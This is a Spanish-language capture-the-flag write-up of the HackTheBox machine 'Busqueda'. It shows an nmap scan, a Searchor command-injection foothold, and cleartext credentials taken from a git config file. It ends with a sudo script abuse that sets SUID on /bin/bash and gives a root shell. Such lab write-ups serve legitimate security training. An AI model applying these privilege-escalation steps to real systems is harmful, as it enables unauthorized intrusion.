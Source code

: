 ```yaml
---
title: Busqueda
date: 2023-04-14 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.93 scan initiated Sat Apr  8 19:09:14 2023 as: nmap -sCV -p22,80 -oN targed 10.129.204.34
Nmap scan report for 10.129.204.34
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  8 19:09:25 2023 -- 1 IP address (1 host up) scanned in 11.55 seconds
```
Encontramos un sitio web donde utiliza searchor 2.4.0 por detrás, buscamos sobre este tema y encontramos que en la versión 2.4.2 se encontró una vulnerabilidad que podíamos abusar para ejecutar comandos.

![imagen1](/assets/images/Busqueda/busqueda1.png)

![imagen2](/assets/images/Busqueda/busqueda2.png)

![imagen3](/assets/images/Busqueda/busqueda3.png)

Para esto buscamos payloads de python en hacktricks para ejecutar comandos. Nos ponemos en escucha y nos entablamos una conexión.

![imagen4](/assets/images/Busqueda/busqueda4.png)

Dentro nos encontramos con un archivo de configuración de git donde nos encontramos credenciales en texto claro.

```shell
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
Con esta podemos buscar privilegios sudo de la máquina y encontramos lo siguiente.

```shell
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```
Como no podemos leerlo procedemos a ejecutarlo.

```shell
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
Podemos crear un archivo full-checkup.sh dando permisos suid a la bash y así podemos hacernos con root.

```shell
svc@busqueda:/tmp$ nano full-checkup.sh
svc@busqueda:/tmp$ chmod +x full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1# whoami
root
```

